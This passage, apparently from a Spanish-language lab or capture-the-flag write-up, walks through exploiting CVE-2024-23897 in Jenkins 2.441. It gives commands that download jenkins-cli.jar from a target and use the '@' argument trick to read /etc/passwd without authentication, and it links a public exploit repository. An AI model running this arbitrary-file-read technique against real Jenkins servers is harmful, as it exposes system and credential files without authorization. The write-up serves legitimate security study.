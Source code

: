 ![s1.4](./imgs-builder/i4.png)

[explois CVE-2024-23897](https://github.com/3yujw7njai/CVE-2024-23897.git)

2. Explotación de la vulnerabilidad CVE-2024-23897:

Aprovechar una vulnerabilidad en la versión 2.441 de Jenkins que permite leer archivos arbitrarios como usuario no autenticado.
Usar jenkins-cli.jar para leer archivos como /etc/passwd y obtener información.

```bash
# Descargamos la CLI cliente de jenkins, herramienta para interactuar con jenkins
wget {target_IP}:8080/jnlpJars/jenkins-cli.jar
# Ejecutamos el comando de jenkins para mostrar el contenido del archivo /etc/passwd sin exito aparente
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://{target_IP}:8080' help "@/etc/passwd"
```

-noCertificateCheck: Esta opción indica que se omita la validación del certificado SSL/TLS al conectarse a Jenkins.

![s2.1](./imgs-builder/i6.png)
